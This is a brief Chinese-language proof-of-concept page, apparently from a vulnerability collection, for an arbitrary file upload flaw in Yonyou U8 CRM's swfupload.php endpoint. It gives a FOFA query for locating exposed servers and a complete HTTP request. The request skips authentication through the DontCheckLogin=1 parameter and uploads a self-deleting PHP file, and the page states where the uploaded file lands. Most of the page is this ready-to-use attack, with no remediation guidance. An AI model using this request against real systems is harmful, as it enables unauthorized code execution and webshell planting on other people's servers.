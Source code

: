 ## 用友crm-swfupload接口存在任意文件上传漏洞

## fofa
```
body="用友U8CRM"
```

## poc
```
POST /ajax/swfupload.php?DontCheckLogin=1&vname=file HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------269520967239406871642430066855
Content-Length: 355

-----------------------------269520967239406871642430066855
Content-Disposition: form-data; name="file"; filename="%s.php "
Content-Type: application/octet-stream

<?phpinfo();sleep(8);unlink(__FILE__);?>
-----------------------------269520967239406871642430066855
Content-Disposition: form-data; name="upload"

upload
-----------------------------269520967239406871642430066855--
```
![image](../../images/dc0c03e9-ad57-4baa-bc90-48e9222bccba.png)

文件路径：`http://127.0.0.1/tmpfile/{{path}}.tmp.php`
